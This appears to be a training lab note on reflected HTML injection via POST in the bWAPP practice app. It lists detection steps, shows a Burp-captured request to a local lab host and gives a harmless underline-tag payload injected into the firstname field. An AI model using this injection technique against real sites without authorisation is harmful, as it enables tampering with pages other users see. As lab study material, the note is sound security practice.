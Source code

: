 # HTML Injection - Reflected (POST) (LOW)

#### **Process:**
```plaintext 
-----------------------------------------
1. At first check the input boxes that how its 
reflect 
2. If its reflecting and also giving an url endpoint its probably a reflected GET Html injection vulnerability

3. If its not reflecting the url endpoint then its sure that we have to use 
burp proxy for the endpoints

```
#### **Burp Proxy**  

```plaintext

POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.56.101
Connection: keep-alive
Referer: http://192.168.56.101/bWAPP/htmli_post.php
Cookie: PHPSESSID=072b29678df3bc882e8b672204474edc; security_level=0
Upgrade-Insecure-Requests: 1
Priority: u=1

firstname=<u>hello</u>&lastname=world&form=submit
```


#### **Payload:**
```html
<u>Hello</u>

```

![alt text](image-3.png)
